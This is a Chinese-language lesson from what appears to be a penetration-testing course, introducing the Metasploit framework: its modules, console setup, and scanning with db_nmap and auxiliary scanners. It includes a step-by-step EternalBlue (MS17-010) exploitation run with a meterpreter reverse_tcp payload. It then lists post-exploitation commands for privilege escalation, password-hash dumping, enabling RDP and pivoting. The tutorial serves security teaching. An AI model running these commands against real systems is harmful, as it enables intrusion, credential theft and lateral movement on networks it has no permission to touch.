# 网络安全系统教程：P23：Metasploit渗透流程 🛠️

在本节课中，我们将要学习渗透测试框架Metasploit。这是一个功能强大的工具，能够自动化执行攻击、生成后门、权限提升等复杂任务，极大地简化了渗透测试的入门过程。

## 概述
Metasploit（简称MSF）是一个高度模块化的开源安全利用和测试框架。它集成了大量常见的系统服务漏洞利用脚本（Exploit）和攻击载荷（Payload），使我们无需深入理解漏洞细节或自行编写利用代码，即可进行有效的渗透测试。虽然其基础流程简单，但内部结构复杂，功能全面。

## Metasploit目录结构
上一节我们介绍了Metasploit的基本概念，本节中我们来看看它的目录结构，了解其组成部分。









在Kali Linux系统中，Metasploit通常安装在 `/usr/share/metasploit-framework/` 目录下。以下是其核心目录的简要说明：

*   **data/**: 存放二进制文件、可编辑文件等数据。
*   **documentation/**: 存放框架的文档。
*   **lib/**: 存放库文件。
*   **plugins/**: 存放插件。
*   **scripts/**: 存放脚本。
*   **tools/**: 存放独立工具。
*   **modules/**: **这是最重要的目录**，包含了MSF的所有功能模块。

我们对Metasploit的自动化利用，主要就是调用 `modules/` 目录下的各种模块。

## 核心模块详解
了解了整体目录后，我们深入看一下 `modules/` 目录下的子模块，它们构成了MSF的核心功能。







进入 `/usr/share/metasploit-framework/modules/` 目录，可以看到7个子目录：

以下是各模块的功能介绍：
1.  **auxiliary/ (辅助模块)**: 用于信息收集、漏洞扫描、弱密码爆破等辅助性工作。
2.  **exploits/ (漏洞利用模块)**: 包含针对各种软件、系统漏洞的利用脚本。
3.  **payloads/ (攻击载荷模块)**: 包含在目标系统成功利用漏洞后执行的代码，例如反弹Shell的代码。其目的是获取一个可交互的Shell（如Linux的bash或Windows的cmd）。
4.  **post/ (后渗透模块)**: 在成功获取目标系统Shell（`meterpreter`）后，用于进行权限提升、内网探测、创建路由等后续操作。
5.  **encoders/ (编码器模块)**: 对攻击载荷进行编码和加密，以绕过杀毒软件（AV）和入侵检测系统（IDS）的检测。
6.  **nops/ (空指令模块)**: 生成空指令（NOP sled），用于使攻击载荷在内存中更稳定地执行。在汇编中，`0x90` 代表 `nop` 指令。
7.  **evasion/ (规避模块)**: 用于生成免杀（绕过杀毒软件）的攻击载荷。

## 启动与基础操作
上一节我们介绍了核心模块，本节中我们来看看如何启动Metasploit并进行基础操作。







首先，可以初始化数据库（非必需，但便于管理扫描结果）：
```bash
msfdb init
```
然后启动Metasploit控制台：
```bash
msfconsole
```
启动后，会进入 `msf6 >` 提示符的命令行环境。







在控制台内，可以进行以下基础检查与操作：
*   检查数据库连接状态：`db_status`
*   查看当前工作区：`workspace`
*   创建并切换到新工作区：`workspace -a 新工作区名`



## 信息收集与扫描
信息收集是渗透测试的第一步。Metasploit提供了多种方式进行主机发现和端口扫描。





**1. 使用内置的Nmap（db_nmap）**
`db_nmap` 的用法与标准Nmap完全一致，扫描结果会自动存入数据库。
```bash
db_nmap -sS -A 目标IP
```

**2. 使用辅助扫描模块**
这是更“Metasploit”的方式。例如，进行SYN半开端口扫描：

首先搜索或使用端口扫描模块：
```bash
search portscan
use auxiliary/scanner/portscan/syn
```
查看需要设置的参数：
```bash
show options
```
设置目标IP地址：
```bash
set RHOSTS 目标IP
```
运行模块：
```bash
run
# 或者
exploit
```



**3. 进行内网C段主机发现**
同样可以使用辅助模块进行存活主机扫描。
```bash
use auxiliary/scanner/discovery/arp_sweep
show options
set RHOSTS 目标IP段 (如: 192.168.1.0/24)
set THREADS 50
run
```

## 漏洞利用流程示例
在完成信息收集，发现目标开放了可能存在漏洞的服务后，就可以尝试利用。以下是简化流程：

1.  **搜索漏洞利用模块**：例如，针对SMB服务的永恒之蓝漏洞。
    ```bash
    search ms17-010
    ```
2.  **选择并加载利用模块**：
    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    ```
3.  **查看并设置模块选项**：
    ```bash
    show options
    set RHOSTS 目标IP
    ```
4.  **选择攻击载荷（Payload）**：设置我们成功利用后，想让目标机器执行什么操作。
    ```bash
    show payloads
    set payload windows/x64/meterpreter/reverse_tcp
    ```
5.  **设置Payload选项**（通常是本机IP和监听端口）：
    ```bash
    show options
    set LHOST 你的IP
    set LPORT 4444
    ```
6.  **执行攻击**：
    ```bash
    exploit
    ```
    如果成功，你将获得一个 `meterpreter` 会话，这是一个功能强大的后渗透Shell。



## 后渗透与权限维持
成功获得 `meterpreter` 会话后，就进入了后渗透阶段。



你可以使用 `post/` 模块进行各种操作，例如：
*   获取系统信息：`sysinfo`
*   提权：`getsystem`
*   转储密码哈希：`hashdump`
*   开启远程桌面：`run post/windows/manage/enable_rdp`
*   进行内网跳板：`run autoroute -s 内网网段`





## 总结
本节课中我们一起学习了渗透测试框架Metasploit的核心知识。我们从其目录结构和模块组成讲起，了解了辅助、利用、载荷、后渗透等核心概念。接着，我们学习了如何启动MSF控制台，并利用其进行信息收集、端口扫描。最后，我们梳理了一个完整的漏洞利用流程示例，从搜索模块到获得 `meterpreter` 会话。掌握这些基础操作，是使用Metasploit进行自动化渗透测试的重要第一步。记住，虽然MSF简化了攻击过程，但深入理解漏洞原理和网络知识，才能成为一名优秀的安全研究员。